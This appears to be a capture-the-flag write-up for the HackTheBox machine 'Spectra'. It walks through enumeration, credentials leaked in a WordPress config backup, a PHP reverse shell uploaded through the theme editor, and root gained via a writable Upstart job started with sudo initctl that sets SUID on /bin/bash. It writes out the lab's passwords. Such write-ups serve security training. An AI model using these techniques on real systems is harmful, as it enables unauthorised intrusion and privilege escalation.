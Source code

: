 ```yaml
---
title: Hackthebox - Spectra
date: 2021-05-23 00:00:00 +0530
categories: [hackthebox, linux]
tags: [wordpress admin, sudo initctl]     # TAG names should always be lowercase
image: /assets/img/posts/spectra/spectra_banner.png
---
```



![](/assets/img/posts/spectra/spectra_banner.png)



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

__IP-ADDR:__ 10.10.10.229 spectra.htb

__nmap scan:__
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql   MySQL (unauthorized)
```

* webserver nginx 1.17.4 running 2 wordpress in different directories on the same host.
```bash
http://spectra.htb/main/
http://spectra.htb/testing/
```

![](/assets/img/posts/spectra/web-page.png)

Running `wpscan` on `/main` wordpress found -
* WordPress version 5.4.2
* __User:__ administrator

`/testing/` wordpress gives "Error establishing a database connection" which preventing to run wpcan.

But it allows file indexing at `/testing` and from there found `wp-config.php`

![](/assets/img/posts/spectra/file-indexing.png)

Got __dbcreds:__ `devtest:devteam01` from `/wp-config.php.save`

Try connecting to mysql server return error.
```bash
❯ mysql -h 10.10.10.223 -u devteam -pdevteam01
ERROR 2002 (HY000): Can't connect to MySQL server on '10.10.10.223' (115)
```

but Password worked on `/main` wordpress login with username __`administrator`__.

# Foothold

## wpadmin reverse shell

Edit them and upload php reverse shell in the `404.php` file <!--administrator:devteam01-->

![](/assets/img/posts/spectra/upload-rev-shell.png)

and go to same theme `404.php` file to execute reverse shell
```bash
http://spectra.htb/main/wp-content/themes/twentytwenty/404.php
```

![](/assets/img/posts/spectra/web-shell.png)

# Privesc

found more dbcreds from `/main` wordpress config file
```bash
nginx@spectra /usr/local/share/nginx/html/main $ cat wp-config.php | grep -i 'DB_USER\|DB_PASSWORD'
define( 'DB_USER', 'dev' );
define( 'DB_PASSWORD', 'development01' );
```

Found a conf file `autologin.conf.orig` in `/opt` directory which reads password from multiple folders. From `/etc/autologin` get new password which worked for user "katie" in ssh login.
<!--katie:SummerHereWeCome!!-->

![](/assets/img/posts/spectra/more-passwd.png)

User "katie" have sudo rights to run `/sbin/initctl` as any user on the box with NOPASSWD and SETENV enable.

```bash
katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

## `initctl` with sudo

* __`initctl`__ [man page](https://linux.die.net/man/8/initctl), initctl allows a system administrator to communicate and interact with the Upstart init(8) daemon.
* __Upstart:__ software is an event-based replacement for the traditional init daemon—the method by which several Unix-like computer operating systems perform tasks when the computer is started.
  * [upstart doc](http://upstart.ubuntu.com/cookbook/)
* __upstart scripts:__ An Upstart script is a combination of states and events. Upstart scripts are located in `/etc/init/` directory with a `.conf` extension. The scripts are called "System Jobs" and run using sudo privileges. Just like system jobs we also have "User Jobs" that are located at `$HOME/.init/` directory. (Note: Only Ubuntu versions above 11.10 support user jobs). After internal upstart initialization, it emits an event called ‘startup’ which triggers rest of system and user jobs. 
  * writing upstart jobs [official doc](http://upstart.ubuntu.com/getting-started.html), [blog](https://blog.joshsoftware.com/2012/02/14/upstart-scripts-in-ubuntu/)


User katie is in "developers" group
```bash
katie@spectra /etc/init $ id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
```

and there are some job scripts in `/etc/init` folder which writable by "developers" group users.

![](/assets/img/posts/spectra/katie-dev-jobs.png)

__stop "test" job__
```bash
#to check if job is running
sudo -u root /sbin/initctl list

sudo -u root /sbin/initctl stop test
```

__Creating upstart job script__
```bash
cat > /etc/init/test.conf << EOF
description "initctl privesc"

start on filesystem or runlevel [2345]
stop on shutdown

script
    chmod +s /bin/bash
end script

post-stop script
    # clean up
    echo '' > /etc/init/test.conf
end script
EOF
```

__restart job__
```bash
sudo -u root /sbin/initctl start test
```

![](/assets/img/posts/spectra/spectra-rooted.png)

